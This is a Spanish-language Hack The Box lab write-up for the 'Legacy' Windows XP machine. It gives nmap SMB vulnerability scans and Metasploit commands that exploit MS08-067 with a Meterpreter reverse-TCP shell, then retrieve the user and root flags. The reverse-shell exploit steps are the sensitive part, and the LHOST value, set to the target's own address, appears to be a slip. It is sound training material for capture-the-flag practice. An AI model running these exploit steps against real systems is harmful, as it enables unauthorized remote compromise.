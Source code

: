 ```yaml
---
{"dg-publish":true,"permalink":"/hack-the-box/maquinas/easy/legacy/","dgPassFrontmatter":true}
---
```


Empezamos haciendo un nmap a la maquina:

```
nmap -sCV -T5 10.10.10.4 -oN legacy_machine
```

![Pasted image 20250522172723.png](/img/user/Imagenes/Pasted%20image%2020250522172723.png)

Observamos que la maquina es un windows XP lo cual puede indicar que quiza es vulnerable a SMB, enumeramos:

```
nmap -p 445 --script smb-vuln* 10.10.10.4
```

![Pasted image 20250522173331.png](/img/user/Imagenes/Pasted%20image%2020250522173331.png)

Notamos que es vulnerable a CVE:CVE-2017-0143 ->EternalBlue y > **MS08-067: Microsoft Windows Server Service Vulnerability**

Descripcion: Esta vulnerabilidad critica del servicio de red de Windows (Server Service) que permite ejecucion remota de codigo (RCE) mediante paquetes especialmente creados enviados a traves del puerto 139 o 445 (SMB).

## Sistemas afectados:

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008 (versiones antiguas)
- Windows 2000

## Impacto

- Permite ejecucion remoda de codigo sin autenticacion.
- Fue ampliamente explotada por gusanos como Conficker.

Vamos a probar explotar esta vulnerabilidad con metasploit:

## Explotacion con Metasploit:

- use exploit/windows/smb/ms08_067_netapi
- set RHOST 10.10.10.4
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.4
- run

![Pasted image 20250522174921.png](/img/user/Imagenes/Pasted%20image%2020250522174921.png)

Si queremos saber bajo que usuario se ejecuta el exploit potemos colocar en el **meterpreter> getuid**

![Pasted image 20250522175033.png](/img/user/Imagenes/Pasted%20image%2020250522175033.png)
Luego colocar un shell para ser mas interactivos y buscamos el user.txt y el root.txt

En este caso como estamos en Windows XP, los usuarios los encontramos en **dir C:\\Documents and Settings**

![Pasted image 20250522175409.png](/img/user/Imagenes/Pasted%20image%2020250522175409.png)

Vamos a john para el user.txt:

![Pasted image 20250522175504.png](/img/user/Imagenes/Pasted%20image%2020250522175504.png)

Vamos a administrator para el root.txt:

![Pasted image 20250522175546.png](/img/user/Imagenes/Pasted%20image%2020250522175546.png)

thanks.